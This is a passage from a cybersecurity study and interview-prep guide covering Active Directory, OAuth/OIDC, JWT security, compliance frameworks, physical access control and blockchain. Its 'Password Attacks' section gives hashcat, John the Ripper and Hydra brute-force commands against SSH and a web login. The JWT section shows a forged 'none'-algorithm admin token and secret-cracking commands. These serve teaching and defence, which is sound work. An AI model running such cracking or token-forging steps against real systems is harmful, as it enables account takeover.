    * **TGT (Ticket Granting Ticket):** Provided by the KDC after initial authentication.
    * **Service Tickets:** Issued by the Ticket Granting Service (TGS) to access a specific resource or service. for accessing specific services.
  * **Attacks**
    * **Pass-the-Ticket (PtT):** Using stolen Kerberos tickets to access resources.
    * **Kerberoasting:**  Offline brute force of service account passwords from captured service tickets.
    * **Golden Ticket:** Forging TGT using the KRBTGT account’s hash from a compromised domain controller.
    * **Silver Ticket:** Forging service tickets using service account password hashes.
  * **SPN (Service Principal Name):** Unique identifier for services in Kerberos.
* **LDAP (Lightweight Directory Access Protocol)** → Protocol to query and modify AD data.
* **RADIUS** → Protocol that handles remote authentication and authorization (often for network access like VPNs or Wi-Fi)
* **NTLM** → Older fallback authentication protocol. Still used as a backup.

```powershell
# User management
New-ADUser -Name "John Doe" -SamAccountName "jdoe" -UserPrincipalName "jdoe@domain.com"
Get-ADUser -Filter "Name -like '*John*'"
Set-ADAccountPassword -Identity jdoe -Reset -NewPassword (ConvertTo-SecureString "NewPassword123!" -AsPlainText -Force)

# Group management
New-ADGroup -Name "Security Team" -GroupScope Global
Add-ADGroupMember -Identity "Security Team" -Members jdoe

# Password policy
Get-ADDefaultDomainPasswordPolicy
Set-ADDefaultDomainPasswordPolicy -MinPasswordLength 12 -PasswordHistoryCount 24
```

## LDAP
```bash
# LDAP search
ldapsearch -x -H ldap://dc.example.com -D "cn=admin,dc=example,dc=com" -W -b "dc=example,dc=com" "(objectClass=person)"

# Add user
ldapadd -x -H ldap://dc.example.com -D "cn=admin,dc=example,dc=com" -W -f newuser.ldif
```

## Single Sign-On (SSO)
SSO allows users to authenticate once and gain access to multiple systems without re-entering credentials.

### Federated Identity Concepts

**Federated Identity**  
Authentication is delegated to an Identity Provider (IdP), which issues assertions to a Relying Party (RP/SP). Requires trust agreements and secure token exchange.

**Circle of Trust**  
Set of IdPs and RPs that mutually trust and follow shared standards (e.g., SAML, OIDC), exchange metadata, and align policies.

**Self-Sovereign Identity (SSI)**  
User-controlled, decentralized, portable identities. Verified via cryptography (DIDs, Verifiable Credentials, Blockchain, Zero-Knowledge Proofs). Enables selective disclosure and privacy.

#### Self-Sovereign Identity (SSI)
**Purpose**: Users control their identity; identities are portable, decentralized, and cryptographically verifiable.

**Principles**
* **User Control**: Decide what to share, with whom
* **Decentralized**: No central authority
* **Portable**: Works across systems
* **Privacy**: Selective disclosure
* **Secure**: Backed by cryptography

**Tech**
* **Decentralized Identifiers (DIDs)**: User-controlled unique and resolvable IDs
* **DID Documents**: Metadata about DIDs (public keys, service endpoints)
* **Verifiable Credentials**: Signed digital proofs (e.g., diploma)
* **Verifiable Presentations**: Selectively share parts of credentials
* **Blockchain**: Ledger for trust, not storing data
* **Zero-Knowledge Proofs***: Prove facts without revealing data

**Traditional vs Federated vs SSI**:
```
Traditional → Each app manages its own identities
Federated → Centralized IdP manages identities for multiple apps
SSI → Users manage their own identities independently
```

### SAML (Security Assertion Markup Language)
SAML is an XML-based framework for exchanging authentication and authorization data between parties, typically an identity provider (IdP) and a service provider (SP).

```xml
<!-- SAML Assertion -->
<saml:Assertion xmlns:saml="urn:oasis:names:tc:SAML:2.0:assertion">
  <saml:Subject>
    <saml:NameID Format="urn:oasis:names:tc:SAML:2.0:nameid-format:persistent">user@example.com</saml:NameID>
  </saml:Subject>
  <saml:AttributeStatement>
    <saml:Attribute Name="Role">
      <saml:AttributeValue>Admin</saml:AttributeValue>
    </saml:Attribute>
  </saml:AttributeStatement>
</saml:Assertion>
```

### OAuth 2.0
OAuth 2.0 is an **authorization framework** (not for authentication) that allows third-party applications to obtain limited access to user resources without exposing user credentials → “app gets permission to act on your behalf.”

Client redirects user to AS with scope, client ID, etc.

```http
GET /authorize?
    client_id=123
    &redirect_uri=https://app/callback
    &response_type=code
    &scope=email
    &state=xyz
```
- `client_id` and `client_secret`: App credentials (Confidential or Public clients)
- `redirect_uri`: Where to send the user after authorization
- `scope`: Permissions requested
- `state`: Prevent CSRF attacks

User authenticates and consents to app, then Authorization Server (AS) redirects back to `redirect_uri` with code:
```http
https://app/callback?code=SplxlOBeZQQYbYS6WxSbIA&state=xyz
```

Client exchanges code for access (and optional refresh) token.

```json
POST /token
{
  "client_id": "123",
  "client_secret": "xyz",
  "code": "SplxlOBeZQQYbYS6WxSbIA",
  "grant_type": "authorization_code"
}
```
- `authorization_code`: Grant type for exchanging code for tokens

Response:

```json
{
  "access_token": "ya29.a0Af...",
  "expires_in": 3600,
  "refresh_token": "1//0g..."
}
```
- `access_token`: Short-lived; grants access to specific resources.
- `refresh_token`: Long-lived; allows new access tokens without re-consent.

Client uses access token to access Resource Server (RS).
```http
GET /userinfo
Authorization: Bearer ya29.a0Af...
```
- `Bearer`: Token type used in Authorization header (Anyone holding it can access resources)

**Enhancements:**
- `DPoP (Proof-of-Possession):` Bound to client's key pair; requires proof on each use.
  - Binds token to public key → prevents token misuse if intercepted.
  - Adds DPoP JWT header to prove possession.
- `PKCE (RFC 7636)`: Enhances security for public clients (e.g., mobile apps, SPAs).
  - Generates a random `code_verifier` and derives a `code_challenge` using SHA256.
  - Sends `code_challenge` during authorization request.
  - Sends `code_verifier` during token exchange to prove possession.


### OpenID Connect
OpenID Connect (OIDC) is an identity layer built on top of OAuth 2.0 that enables authentication and provides user profile information.

**Difference**: Response types include `id_token` for authentication (includes user identity through JWT).

Client initiates auth request to AS:
```http
GET /authorize?
    response_type=code
    &client_id=CLIENT_ID
    &redirect_uri=REDIRECT_URI
    &scope=openid%20profile%20email
    &state=STATE
```
- `scope=openid`: Required to indicate OIDC request
- `profile`, `email`: Request user profile and email information
- `id_token`: JWT containing user identity claims
- `userinfo` endpoint: Retrieve additional user info using access token

User authenticates and AS redirects back with code:
```http
https://app/callback?code=SplxlOBeZQQYbYS6WxSbIA&state=xyz
```
Client exchanges code for `id_token` and `access_token`:
```json
POST /token
{
  "client_id": "CLIENT_ID",
  "client_secret": "SECRET",
  "code": "SplxlOBeZQQYbYS6WxSbIA",
  "grant_type": "authorization_code"
}
```

Response:
```http
{
  "access_token": "ya29.a0Af...",
  "id_token": "eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9...",
  "token_type": "Bearer"
}
```

Inside `id_token`:
```json
{
  "sub": "1234567890",
  "name": "Berkan",
  "email": "berkan@example.com",
  "iss": "https://accounts.example.com",
  "aud": "CLIENT_ID",
  "exp": 1736854581
}
```
- `sub`: Unique user identifier
- `iss`: Issuer (AS)
- `aud`: Audience (client ID)
- `exp`: Expiration time
- `name`, `email`: User profile claims

Client uses `id_token` to authenticate user and `access_token` to access user info. Also the endpoint `/userinfo` can be called with the `access_token` to get more user details.

# JSON Web Tokens (JWT) Security
JWT is a compact, stateless, URL-safe token format for securely transmitting information between parties as a JSON object.

## JWT Structure and Components

**Structure**: `header.payload.signature`

```javascript
// Header (Base64URL encoded)
{
  "alg": "HS256",    // Algorithm used for signing
  "typ": "JWT"       // Token type
}

// Payload (Base64URL encoded)
{
  "sub": "1234567890",                // Subject (user ID)
  "name": "John Doe",                 // Custom claims
  "iat": 1516239022,                  // Issued at
  "exp": 1516242622,                  // Expiration time
  "iss": "https://auth.example.com",  // Issuer
  "aud": "client_app"                 // Audience
}

// Signature (Algorithm dependent)
HMACSHA256(
  base64UrlEncode(header) + "." + base64UrlEncode(payload),
  secret
)
```

### JWT Creation and Verification
```python
import jwt
import datetime

# Create JWT
payload = {
    'user_id': 123,
    'username': 'john_doe',
    'exp': datetime.datetime.utcnow() + datetime.timedelta(hours=1),
    'iat': datetime.datetime.utcnow(),
    'iss': 'auth-service'
}

secret = 'your-secret-key'
token = jwt.encode(payload, secret, algorithm='HS256')

# Verify JWT
try:
    decoded = jwt.decode(token, secret, algorithms=['HS256'])
    print(f"Valid token for user: {decoded['username']}")
except jwt.ExpiredSignatureError:
    print("Token has expired")
except jwt.InvalidTokenError:
    print("Invalid token")
```

JWT's are sent in HTTP authorization headers to authenticate API requests:
```http
Authorization: Bearer <jwt_token>
```

## JWT Security Vulnerabilities and Attacks

### 1. Algorithm Confusion Attacks
**Attack**: Changing algorithm from RS256 to HS256 to bypass signature verification

```python
# Vulnerable verification (accepts any algorithm)
def vulnerable_verify(token, secret):
    return jwt.decode(token, secret, algorithms=['HS256', 'RS256'])

# Secure verification (explicit algorithm)
def secure_verify(token, secret):
    return jwt.decode(token, secret, algorithms=['HS256'])  # Only allow expected algorithm
```

**Mitigation**:
- Always specify allowed algorithms explicitly
- Never use algorithm "none"
- Separate keys for different algorithms

### 2. None Algorithm Attack
**Attack**: Setting algorithm to "none" to create unsigned tokens

```javascript
// Malicious JWT header
{
  "alg": "none",
  "typ": "JWT"
}

// Payload (admin privileges escalation)
{
  "sub": "1234567890",
  "role": "admin",
  "exp": 1999999999
}
```

**Mitigation**:
```python
# Secure JWT verification
def secure_decode(token, secret):
    # Explicitly reject 'none' algorithm
    return jwt.decode(
        token,
        secret,
        algorithms=['HS256'],  # Never include 'none'
        options={"verify_signature": True}
    )
```

### 3. Weak Secret/Key Attacks
**Attack**: Brute forcing weak HMAC secrets

```bash
# JWT brute force with hashcat
hashcat -a 0 -m 16500 jwt_token.txt wordlist.txt

# JWT cracking with john
./jwt2john.py jwt_token > jwt_hash.txt
john jwt_hash.txt --wordlist=wordlist.txt
```

**Mitigation**:
- Use cryptographically strong secrets (256+ bits)
- Prefer asymmetric algorithms (RS256) for distributed systems
- Implement key rotation

### 4. Token Replay Attacks
**Attack**: Reusing valid tokens after logout or privilege changes

**Mitigation**:
```python
# Implement token blacklist
blacklisted_tokens = set()

def verify_token(token):
    if token in blacklisted_tokens:
        raise ValueError("Token has been revoked")

    payload = jwt.decode(token, secret, algorithms=['HS256'])

    # Check against current user permissions
    if not user_has_permission(payload['user_id'], payload['role']):
        raise ValueError("User permissions have changed")

    return payload

def logout(token):
    blacklisted_tokens.add(token)
```

### 5. Information Disclosure
**Attack**: Sensitive data exposure in JWT payload (Base64 encoded, not encrypted)

```javascript
// BAD: Sensitive information in payload
{
  "user_id": 123,
  "credit_card": "4111-1111-1111-1111",  // Exposed!
  "ssn": "123-45-6789"                   // Exposed!
}

// GOOD: Only necessary, non-sensitive claims
{
  "user_id": 123,
  "role": "user",
  "permissions": ["read_profile", "update_profile"]
}
```

## JWT vs Other Token Formats

### JWT vs Opaque Tokens
| Feature         | JWT                         | Opaque Tokens           |
| --------------- | --------------------------- | ----------------------- |
| **Structure**   | Self-contained JSON         | Random string           |
| **Validation**  | Local signature check       | Database lookup         |
| **Revocation**  | Complex (blacklist needed)  | Simple (delete from DB) |
| **Size**        | Larger (contains data)      | Smaller                 |
| **Performance** | Faster validation           | Slower (DB query)       |
| **Security**    | Information disclosure risk | No data exposure        |

> For JWT Revocation it is also possible to use short-lived tokens combined with refresh tokens. 

### JWT-VC (Verifiable Credentials) vs JSON-LD VC

#### JWT-VC (JWT-based Verifiable Credentials)
**Structure**: Standard JWT format with VC-specific claims
```javascript
{
  "iss": "https://university.edu/issuer",           // Issuer (University)
  "sub": "did:example:ebfeb1f712ebc6f1c276e12ec21",  // Subject (Student)
  "vc": {
    "@context": ["https://www.w3.org/2018/credentials/v1"],
    "type": ["VerifiableCredential", "UniversityDegree"],
    "credentialSubject": {
      "id": "did:example:ebfeb1f712ebc6f1c276e12ec21",
      "degree": {
        "type": "BachelorDegree",
        "name": "Bachelor of Science in Computer Science"
      }
    }
  },
  "exp": 1735689600,
  "iat": 1640995200
}
```

**Advantages**:
- Compact, URL-safe format
- Easy integration with existing JWT infrastructure
- Wide library support
- Fast verification

**Disadvantages**:
- Limited cryptographic signature options
- Less flexible than JSON-LD
- Algorithm confusion vulnerabilities

#### JSON-LD VC (JSON-LD Verifiable Credentials)
**Structure**: JSON-LD with linked data semantics and embedded proofs
```json
{
  "@context": [
    "https://www.w3.org/2018/credentials/v1",
    "https://example.org/university/v1"
  ],
  "id": "https://university.edu/credentials/3732",
  "type": ["VerifiableCredential", "UniversityDegree"],
  "issuer": "https://university.edu/issuer",
  "issuanceDate": "2021-01-01T00:00:00Z",
  "expirationDate": "2025-12-31T23:59:59Z",
  "credentialSubject": {
    "id": "did:example:ebfeb1f712ebc6f1c276e12ec21",
    "degree": {
      "type": "BachelorDegree",
      "name": "Bachelor of Science in Computer Science",
      "degreeSchool": "School of Engineering"
    }
  },
  "proof": {
    "type": "Ed25519Signature2020",
    "created": "2021-01-01T00:00:00Z",
    "verificationMethod": "https://university.edu/issuer/keys/1",
    "proofPurpose": "assertionMethod",
    "proofValue": "z58DAdFfa9SkqZMVPiQjHs1A..."
  }
}
```

**Advantages**:
- Rich semantic meaning with linked data
- Multiple signature algorithms (Ed25519, BBS+, etc.)
- Supports selective disclosure and zero-knowledge proofs
- More flexible credential modeling

**Disadvantages**:
- Larger size due to JSON-LD context
- More complex to implement and validate
- Requires understanding of RDF and linked data concepts

### Comparison Table: JWT-VC vs JSON-LD VC
| Feature              | JWT-VC                        | JSON-LD VC                           |
| -------------------- | ----------------------------- | ------------------------------------ |
| **Format**           | Compact JWT                   | Expanded JSON-LD                     |
| **Size**             | Smaller                       | Larger                               |
| **Semantics**        | Limited                       | Rich (linked data)                   |
| **Signatures**       | JWT algorithms (RS256, ES256) | Multiple (Ed25519, BBS+, etc.)       |
| **Privacy**          | Limited                       | Advanced (ZKP, selective disclosure) |
| **Complexity**       | Lower                         | Higher                               |
| **Interoperability** | JWT ecosystem                 | W3C standards                        |
| **Revocation**       | JWT-based mechanisms          | Status list, bitstring status        |

### Security Best Practices for JWT
```python
# Secure JWT implementation
import jwt
from datetime import datetime, timedelta
import secrets

class SecureJWT:
    def __init__(self):
        self.secret = secrets.token_urlsafe(32)  # Strong secret
        self.algorithm = 'HS256'
        self.expiry_hours = 1

    def create_token(self, user_id, role):
        payload = {
            'user_id': user_id,
            'role': role,
            'iat': datetime.utcnow(),
            'exp': datetime.utcnow() + timedelta(hours=self.expiry_hours),
            'iss': 'secure-app',
            'jti': secrets.token_urlsafe(16)  # Unique token ID for revocation
        }
        return jwt.encode(payload, self.secret, algorithm=self.algorithm)

    def verify_token(self, token):
        try:
            # Strict verification with all checks enabled
            payload = jwt.decode(
                token,
                self.secret,
                algorithms=[self.algorithm],  # Explicit algorithm
                options={
                    "verify_signature": True,
                    "verify_exp": True,
                    "verify_iat": True,
                    "verify_iss": True,
                    "require": ["exp", "iat", "iss", "jti"]  # Required claims
                },
                issuer='secure-app'
            )

            # Additional business logic checks
            if self.is_token_revoked(payload.get('jti')):
                raise jwt.InvalidTokenError("Token has been revoked")

            return payload

        except jwt.ExpiredSignatureError:
            raise ValueError("Token has expired")
        except jwt.InvalidTokenError as e:
            raise ValueError(f"Invalid token: {str(e)}")

    def is_token_revoked(self, jti):
        # Check against revocation list (implement according to your needs)
        return jti in self.revoked_tokens
```

# Session Management

## Stateful Session Management
A Session ID (random string) uniquely identifies each session.
Server-side: Stores session data in a database or in-memory cache (e.g., user data, preferences).
Client-side: Tracks session via:
- **Session Cookies**: Sent with each request; common and preferred.
- **URL Rewriting**: Embeds session ID in the URL (less secure, vulnerable to leakage).

**Session Expiration**: Triggered after inactivity or logout; invalidates session data and tokens.

### Problems with Session IDs
- **Shared cache systems** like Redis let multiple servers access the same session data, but they can be tricky to manage and may cause data to get out of sync.
- **Sticky sessions** keep a user connected to the same server, but this can cause problems if that server goes down or if load balancing changes.

### How JWT Solves These Problems
- **Stateless**: No server-side session storage needed; all info in the token.
- **Scalable**: Easy to distribute across servers; no session sync issues.
- **Decentralized**: Any server can validate the token without shared storage.
- **Reduced Overhead**: Less server memory and database load.
- **Security**: Can include expiration and claims; but must handle revocation carefully.
- **Performance**: Faster validation without DB lookups.
- **Flexibility**: Works well with microservices and APIs.


# Mobile Security

## Android Security
```java
// Permission check
if (ContextCompat.checkSelfPermission(this, Manifest.permission.CAMERA) != PackageManager.PERMISSION_GRANTED) {
    ActivityCompat.requestPermissions(this, new String[]{Manifest.permission.CAMERA}, CAMERA_REQUEST_CODE);
}

// Secure storage
SharedPreferences sharedPrefs = getSharedPreferences("secure_prefs", Context.MODE_PRIVATE);
SharedPreferences.Editor editor = sharedPrefs.edit();
editor.putString("api_key", encryptedApiKey);
editor.apply();

// Certificate pinning
CertificatePinner certificatePinner = new CertificatePinner.Builder()
    .add("example.com", "sha256/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA=")
    .build();
```

## iOS Security
```swift
// Keychain storage
let query: [String: Any] = [
    kSecClass as String: kSecClassGenericPassword,
    kSecAttrAccount as String: "userAccount",
    kSecValueData as String: password.data(using: .utf8)!
]
SecItemAdd(query as CFDictionary, nil)

// App Transport Security
<key>NSAppTransportSecurity</key>
<dict>
    <key>NSAllowsArbitraryLoads</key>
    <false/>
</dict>
```

# Compliance & Governance

## GDPR
* **Data Protection Principles**
  * **Lawfulness, fairness, transparency** → data must be processed legally, fairly, and clearly communicated to users.
  * **Purpose limitation** → collect data only for specific, explicit purposes.
  * **Data minimization** → only collect what is necessary.
  * **Accuracy** → keep data up to date.
  * **Storage limitation** → don’t keep personal data longer than needed.
  * **Integrity & confidentiality** → protect data with proper security (encryption, access control).
  * **Accountability** → organizations must prove compliance.
* **Data Subject Rights**
  * **Access** → know what data is held about them.
  * **Rectification** → correct inaccurate data.
  * **Erasure ("Right to be Forgotten")** → request deletion of personal data.
  * **Portability** → transfer their data to another provider.
  * **Restriction & objection** → limit or stop certain processing.
  * **Not to be subject to automated decisions** → e.g., AI profiling without human review.
* **Data Protection Impact Assessment (DPIA)**
  * Required if processing poses **high risk** (e.g., large-scale surveillance, sensitive data).
  * Identifies risks to individuals and how to mitigate them.
* **Breach Notification**
  * Must notify authorities (**Supervisory Authority**) within **72 hours** of becoming aware.
  * If high risk to individuals, they must also be informed directly.
* **Penalties**
  * For non-compliance, fines up to **€20 million** or **4% of global turnover**, whichever is higher.
  * For less severe breaches, fines up to **€10 million** or **2% of global turnover**.

## PCI DSS
Payment Card Industry Data Security Standard (PCI DSS) is a set of security standards to protect cardholder data.

**Requirements**
1. Firewall configuration
2. Default passwords
3. Cardholder data protection
4. Encrypted transmission
5. Antivirus software
6. Secure systems
7. Access control
8. Unique IDs
9. Physical access
10. Network monitoring
11. Regular testing
12. Security policy

## ISO 27001
- **ISMS**: Information Security Management System
- **Risk Assessment**: Identify, analyze, evaluate risks
- **Controls**: Technical, organizational, physical

## NIST Framework
**Purpose**: Cybersecurity framework for improving critical infrastructure cybersecurity

**Core Functions**:
1. **Identify**: Asset management, risk assessment, governance
2. **Protect**: Access control, data security, protective technology
3. **Detect**: Anomaly detection, security monitoring
4. **Respond**: Response planning, communications, mitigation
5. **Recover**: Recovery planning, improvements, communications

## NIS2 Directive
**Purpose**: EU cybersecurity directive for network and information systems security

**Key Requirements**:
- Risk management measures and incident reporting
- Supply chain security and vulnerability handling
- Crisis management and business continuity
- Cybersecurity training and awareness programs

## ISO/IEC 27005
**Purpose**: Risk management standard complementing ISO 27001
- Risk assessment and treatment methodologies
- Risk communication and monitoring processes
- Integration with overall risk management framework

## FAIR Model (Factor Analysis of Information Risk)
**Purpose**: Quantifies cyber risk in financial terms for business decision-making

**Components**:
- **Threat Event Frequency**: How often attacks occur
- **Vulnerability**: Probability of successful exploitation
- **Loss Event Frequency**: Combination of threat and vulnerability
- **Loss Magnitude**: Financial impact of successful attacks

**Benefits**:
- Translate technical risks to business language
- Prioritize security investments based on financial impact
- Improve risk communication with executives and stakeholders

# Password Attacks
Password attacks aim to compromise user credentials through various techniques.

```bash
# Hashcat - Indexes and cracks password hashes using different algorithms and attack modes. 
hashcat -m 0 hashes.txt wordlist.txt
hashcat -m 1000 ntlm_hashes.txt wordlist.txt
hashcat -a 3 -m 0 hash.txt ?d?d?d?d?d?d?d?d

# John the Ripper - A fast password cracker supporting various hash types and customizable rules.
john --wordlist=wordlist.txt hashes.txt
john --rules --wordlist=wordlist.txt hashes.txt
john --show hashes.txt

# Hydra - Online brute-force tool for various protocols (SSH, FTP, HTTP, etc.).
hydra -L users.txt -P passwords.txt ssh://target.com
hydra -l admin -P passwords.txt http-post-form://target.com/login.php:"username=^USER^&password=^PASS^:F=incorrect"
```

## Forensics Tools
```bash
# Autopsy
autopsy

# Sleuth Kit
fls -r disk_image.dd
icat disk_image.dd 1234 > recovered_file.txt

# Volatility
volatility -f memory.dump --profile=Win7SP1x64 pslist
volatility -f memory.dump --profile=Win7SP1x64 connections
volatility -f memory.dump --profile=Win7SP1x64 malfind
```

# Bug Bounty Hunting

## Types of Disclosures
- **Full Disclosure**: Vulnerability details shared publicly immediately (risk to end-users if unpatched).  
- **Responsible Disclosure**: Researcher informs company privately, allows time to fix before public release.  
- **Private Disclosure**: Researcher informs company, but details are never made public (internal only).  

## Bug Bounty Actors
- **Platforms**: Third-party (HackerOne, Bugcrowd, Intigriti, YesWeHack, Synack). Connect orgs ↔ researchers, handle rewards.  
- **Programs (Companies)**: Define scope, rules, payouts, legal protections.  
- **Researchers (Hunters)**: Ethical hackers finding/reporting weaknesses.  
- **Triagers**: Validate reports, reproduce issues, assign severity.  
- **Security Teams**: Fix vulnerabilities, verify remediation.  

## Bug Bounty Types & Approaches
- **Bug Bounty Hunting (BBH)**: Monetary rewards, payout depends on severity (e.g. RCE > XSS).  
- **Vulnerability Disclosure Programs (VDP)**: Usually no financial reward, provide reporting channel, sometimes acknowledgements/reputation.  

## Vulnerability Reports & Triaging
- **Report Structure**:  
  - Reproduction Steps → step-by-step instructions  
  - Proof-of-Concept (PoC) → demonstrates flaw  
  - Attacker Abuse Scenario → possible impact/damage  

- **Outcomes**:  
  - Duplicate (already reported)  
  - Out of Scope (outside program boundaries)  
  - Needs More Information (clarification required)  
  - Accepted / Triaged (confirmed, severity assigned)  

- **Severity Assignment**:  
  - Often CVSSv3 or custom scale  
  - Determines bounty & remediation priority  

## Threat Actor Naming (Microsoft)
- **Storm**: Emerging threats, unknown motives  
- **Tempest**: Financially motivated  
- **Tsunami**: Private sector threats vs. corporations  
- **Nation-State Actors**: APT, cyberwarfare  

# Hardware & Physical Security
## Hardware Security Modules (HSM)
- **Definition**: Physical devices that manage digital keys, perform cryptographic operations, and provide secure key storage.
- **Functions**: Key generation, encryption/decryption, digital signatures, secure key storage
- **Types**: Network-attached, PCIe cards, USB tokens
- **Use Cases**: SSL/TLS offloading, code signing, database encryption, PKI
## Trusted Platform Module (TPM)
Hardware chip providing secure cryptographic operations and key storage.

### TPM Keys
- **Endorsement Key (EK)**: Verifies TPM identity, root of trust for reporting
- **Storage Root Key (SRK)**: Encrypts keys/data stored outside TPM, creates key hierarchy

### TPM 1.2 vs 2.0
| Feature                      | TPM 1.2              | TPM 2.0                                |
| ---------------------------- | -------------------- | -------------------------------------- |
| **Cryptographic Algorithms** | Limited (RSA, SHA-1) | Extended (ECC, SHA-2, AES)             |
| **Key Management**           | Basic                | Hierarchical, advanced encryption keys |
| **Remote Attestation**       | Basic                | Robust, easier verification            |

### Attestation Methods

**TPM-Based Attestation**: Platform provides evidence of software state via TPM-signed measurements

**Remote Attestation (RA)**: Two-party protocol verifying remote device integrity
- **Challenge**: Verifier sends nonce/timestamp
- **Attest**: Prover computes attestation response based on internal state
- **Verify**: Verifier validates response against expected state

| Aspect                   | TPM-Based Attestation             | Remote Attestation                         |
| ------------------------ | --------------------------------- | ------------------------------------------ |
| **Scope**                | Single device.                    | Remote device over a network.              |
| **Verifier Interaction** | Local or direct communication.    | Network-based communication.               |
| **Use Case**             | Single platform integrity.        | Distributed or IoT device trust.           |
| **Mechanism**            | Uses TPM for signing and logging. | May involve TPM, SGX, or other mechanisms. |

**Software-Based Attestation**: No hardware support, relies on tight timing constraints and limited storage
- **Attacks**: Compression, ROP rootkits
- **Limitations**: Hardware-specific, single-hop networks

**Hybrid Attestation**: Minimal hardware changes with secure execution and key storage

**Swarm Attestation**: Efficiently verifies large device groups using spanning tree algorithm where nodes attest neighbors

### Hardware Security Technologies
**SGX (Software Guard Extensions)**: Memory encryption isolating sensitive data in protected enclaves, reducing attack surface from OS/hypervisor threats
## Physical Security Controls

### Access Control Systems (ACS)
* Control entry via **cards, readers, controllers, locks**.
* Weakest link = usually **legacy protocols** (Wiegand), cheap cards (125 kHz, MIFARE Classic), or insecure reader firmware.
* Core principle: **card + reader + controller + backend** must all be secured.

### Interfaces & Protocols
**Wiegand (legacy)**

* Pulse interface (DATA0/DATA1). Common 26-bit format.
* Weakness: cleartext, no auth → sniff/replay/spoof.
* Tools: **ESPKey** can passively tap Wiegand lines and log/replay credentials.
* Mitigation: migrate away, protect cabling, detect tamper, monitor traffic.

**OSDP v2 (modern)**

* RS-485 based, bi-directional.
* Supports **Secure Channel (AES-128)** → encryption, mutual auth, anti-replay.
* Recommended replacement for Wiegand.

### RFID / NFC Cards
**125 kHz (LF)**

* UID-only proximity (EM4100, HID Prox). Very easy to clone/skimmable.
* Not suitable for secure use.

**13.56 MHz (HF)**

* *MIFARE Classic*: broken (Crypto-1 cracked) → cloneable.
* *DESFire EV2/EV3, iCLASS SE, modern NFC secure elements*: AES-based, strong crypto, mutual auth.

### Typical Attacks
* **Card cloning / skimming** (Proxmark3).
* **Relay attacks** (extend comms between card & reader).
* **Wiegand sniff + replay** (ESPKey, microcontrollers).
* **Firmware implants / Evil Maid** on readers.
* **Cable tapping / RS-485/Wiegand splice**.
* **Default creds / debug ports** on readers.

### Card Security
* Use **AES-based secure cards** (DESFire EVx, iCLASS SE, FIDO2).
* Require **mutual auth** (card ↔ reader).
* Add **anti-replay** (nonces, rolling keys).
* Bind cards to backend accounts, not just UID.
* Enforce lifecycle: unique per-card keys, rapid revocation, expiry.
* Avoid 125 kHz / MIFARE Classic in secure environments.

### Reader Security
* Use **OSDP v2 Secure Channel** (AES). No cleartext reader-controller traffic.
* **Firmware integrity**: signed firmware, secure boot, block unsigned updates.
* **Physical hardening**: tamper switches, sealed housings, shielded cabling, potting.
* **Network isolation**: VLANs, firewalls, least privilege access.
* **Tamper detection & logging**: heartbeat, cable-cut alarms, central SIEM logging.
* **Supply chain security**: vetted vendors, no backdoored low-cost readers.


# Emerging Technologies
## Blockchain

### Traditional vs Distributed Ledgers
**Traditional Ledgers**: Require trusted third party (banks) to validate/maintain records. Drawback: centralized trust dependency.  
**Distributed Ledgers (DLT)**: Decentralized system where multiple nodes validate/store records. Benefit: removes third-party dependency via consensus.

### Blockchain Basics
**Key Components:**
- **Digital Signatures**: Authenticate sender/receiver identities
- **Hash Functions**: Secure and link data via unique fixed-size outputs
- **Consensus Protocols**: Ensure transaction validation (PoW, PoS)
- **Private/Public Key Cryptography**: Secure communication using asymmetric keys
- **Distributed P2P Network**: Nodes maintain blockchain copies for security/redundancy
- **Merkle Tree**: A binary tree where each parent node is the hash of its children, allowing quick verification of any data block by checking only the hashes up to the root.

**Structure**: Blocks connected by cryptographic hash references. Each block contains transactions, timestamp, and previous block hash.

### Blockchain Types
| Type                       | Who Can View?    | Who Can Participate?  | Examples          |
| -------------------------- | ---------------- | --------------------- | ----------------- |
| **Public Permissionless**  | Everyone         | Everyone              | Bitcoin, Ethereum |
| **Public Permissioned**    | Everyone         | Selected Participants | Ripple            |
| **Private Permissioned**   | Selected Members | Selected Members      | Hyperledger       |
| **Private Permissionless** | Selected Members | Anyone                | Partially Exonum  |

### Consensus Mechanisms
- **Proof of Work (PoW)**: Miners solve computational puzzles to validate blocks
- **Proof of Stake (PoS)**: Validators chosen based on stake ownership

### Bitcoin Mining & Security
**Mining Process**: Miners solve complex puzzles to validate blocks, ensuring network security
- **Genesis Block**: First block (Block 0) created by Satoshi Nakamoto in 2009, hardcodes initial parameters
- **Block Mining Time**: ~10 minutes per block
- **Difficulty Adjustment**: Every 2016 blocks (~2 weeks) to maintain steady block creation rate



**Core flow:**
1. **Make a transaction**
   * Example: *Alice wants to send 1 coin to Bob.*
   * Alice signs the transaction with her digital key (like an electronic signature).
2. **Send it to the network**
   * The transaction is shared with many computers (nodes) in the blockchain network.
3. **Check it’s valid**
   * The network checks:
     * Does Alice really have 1 coin?
     * Is her digital signature correct?
   * If yes → transaction is accepted and kept waiting in a “pool” of unconfirmed transactions.
4. **Build a block**
   * A miner/validator picks a bunch of valid transactions and groups them together into a block.
   * The block also contains a “fingerprint” (hash) of the previous block to link them.
5. **Agree on the block (consensus)**
   * Network must agree the block is valid:
     * *Proof of Work:* miners solve a hard math puzzle.
     * *Proof of Stake:* validators are randomly chosen depending on how much they staked.
6. **Add the block**
   * Once agreed, the new block is attached to the end of the chain.
   * Now the transaction is officially recorded forever.
7. **Update everywhere**
   * Every computer in the network updates its copy of the blockchain.
   * The more blocks added after Alice’s, the harder it is to undo her transaction (stronger confirmation).

### Blockchain Security
- **Decentralization**: No single point of failure, reduces risk of centralized attacks
- **Immutability**: Once data is recorded, it cannot be altered, ensuring integrity (Deeper blocks is more secure - altering requires recomputing all subsequent blocks)
- **Consensus Mechanisms**: Proof of Work (PoW), Proof of Stake (PoS) to validate transactions
- **51% Attack**: Theoretical attack requiring majority network control, impractical for Bitcoin due to massive mining network, but smaller blockchains more vulnerable
- **Smart Contract Security**: Code vulnerabilities can lead to exploits (e.g., DAO hack)
- **Use Cases**: Cryptocurrencies, supply chain, identity management

## AI & Machine Learning Security
- **Adversarial Attacks**: Manipulating input data to deceive models (e.g., image recognition)
- **Data Poisoning**: Injecting malicious data into training sets to corrupt model behavior
- **Model Theft**: Extracting proprietary models through API queries
- **Bias & Fairness**: Ensuring models do not perpetuate or amplify biases

# Common Interview Questions

## Network Security

### Q: Explain the difference between TCP and UDP protocols.
**TCP (Transmission Control Protocol)**:
- Connection-oriented: Establishes connection before data transfer (3-way handshake)
- Reliable: Guarantees packet delivery and order
- Flow control: Manages data transmission rate
